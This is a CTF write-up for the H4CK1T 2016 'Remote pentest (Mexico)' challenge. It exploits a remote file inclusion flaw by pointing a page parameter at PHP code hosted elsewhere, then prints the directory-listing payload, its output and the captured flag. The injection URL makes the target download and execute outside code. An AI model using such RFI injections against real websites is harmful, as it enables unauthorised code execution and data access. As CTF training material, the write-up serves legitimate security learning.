 #Write-up Remote pentest (Mexico) - H4CK1T CTF 2016

Challenge text:
Our foreign partners have some problems with qualified staff in the field of information technology, we decided to help them and to conduct remote testing of their new website. Your task is to find a hole in the system and grab some information to confirm the hack .Good luck !

Challenge URL:
>http://91.231.84.36:9150

The challenge is to test the remote website for any vulnerabilities. After some searching I found the website was vulnerable to PHP injection.
I tested this by uploading my TXT-file with PHP code to a webserver. Then I opened the TXT-file on the website and saw a listing of files.

The injection on the website happens as follows:
> http://91.231.84.36:9150/index.php?page=http://whoisdere.r4u.nl/hack.txt?

Normally it would show page=about or page=services or page=contact, because those are the default pages where the site links to. Now we have injected another file from another host, including the code, which is executed by PHP on the website.
This results in the following PHP-code to be executed on the website:

><?php <br/>
> <br/>
>$dir = "/var/www/srv/www"; <br/>
>$dh  = opendir($dir); <br/>
>while (false !== ($filename = readdir($dh))) { <br/>
>    $files[] = $filename; <br/>
>} <br/>

>sort($files); <br/>
>print_r($files); <br/>
>rsort($files); <br/>
>print_r($files);<br/> ?> <br/>

All files in the folder /var/www/srv/www are printed, where one of the files is: sup3r_$3cr3t_f1le.php.

>Array <br/>
( <br/>
    [0] => . <br/>
    [1] => .. <br/>
    [2] => .htaccess <br/>
    [3] => about.php <br/>
    [4] => contact.php <br/>
    [5] => css <br/>
    [6] => fonts <br/>
    [7] => index.php <br/>
    [8] => js <br/>
    [9] => php.ini <br/>
    [10] => services.php <br/>
    [11] => sup3r_$3cr3t_f1le.php <br/>
) <br/>
Array <br/>
( <br/>
    [0] => sup3r_$3cr3t_f1le.php <br/>
    [1] => services.php <br/>
    [2] => php.ini <br/>
    [3] => js <br/>
    [4] => index.php <br/>
    [5] => fonts <br/>
    [6] => css <br/>
    [7] => contact.php <br/>
    [8] => about.php <br/>
    [9] => .htaccess <br/>
    [10] => .. <br/>
    [11] => . <br/>
) <br/>

Obviously, we know this folder as the default apache folder is /var/www/. From there we can continuously change the code, so another subfolder can be viewed. Eventually you will find the folder with this file.

By browsing to the file sup3r_$3cr3t_f1le.php, you will find the flag:
> h4ck1t{g00d_rfi_its_y0ur_fl@g}
